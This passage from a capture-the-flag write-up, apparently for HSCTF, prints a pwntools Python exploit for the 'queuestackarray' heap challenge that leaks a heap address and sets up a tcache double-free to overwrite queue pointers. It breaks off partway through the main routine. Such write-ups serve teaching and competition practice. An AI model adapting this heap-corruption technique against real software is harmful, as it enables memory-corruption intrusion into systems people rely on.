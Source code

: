 ## The final exploit

Here's the final exploit, complete with some boilerplate and extra comments:
~~~ python
#!/usr/bin/python3

from pwn import *

exe = ELF("./queuestackarray")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.terminal = ["xfce4-terminal", "--execute"]
context.binary = exe
args.LOCAL = True
args.DEBUG = True

def conn():
	if args.LOCAL:
		tempsock = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
		gdb.attach(tempsock, ''' set disable-randomization off ''')
		return tempsock
	else:
		return remote("queuestackarray.hsctf.com", 1337)

sock = conn()

#basic interface:
def popleft(qstack) :
    sock.sendlineafter("> ", ("pop" + str(qstack)))
def popright(qstack) :
    sock.sendlineafter("> ", ("popright" + str(qstack)))
def pushleft(qstack, content) :
    if isinstance(content, str) :
        content = content.encode()
    sock.sendlineafter("> ", ("pushleft".encode() + str(qstack).encode() + " ".encode() + content))
def pushright(qstack, content) :
    if isinstance(content, str) :
        content = content.encode()
    sock.sendlineafter("> ", ("push".encode() + str(qstack).encode() + " ".encode() + content))
def examine(qstack, card) :
    sock.sendlineafter("> ", ("examine" + str(qstack) + str(card)))
def main():
    padding = 0x0055000000000000 #padding that we need to add for target to not cut off the addr
    #first get a heap leak:
    pushright(1, "A"*0x10)
    pushright(1, "B"*0x10)
    popright(1)
    popright(1)
    examine(1,1)
    heap_base = u64(sock.recvuntil(">")[0:6] + bytes.fromhex("0000")) - 0x3b0
    sock.sendline("examine11")
    #trigger a double-free:
    #first build a base to fill up tcache:
    for i in range(6) :
        pushright(1, "AAAAAA")
    pushright(2, "AAAAAA")
    pushright(2, "decoyaa")
    #next move head for queuestack 4 to overwrite queuestack 3
    for i in range(2) :
        pushleft(4, ("A"*0x40))
    #calculate where tail for queuestack 3 is:
    tail_addr = heap_base + 0x490 #addr that we overwrite tail + head with
~~~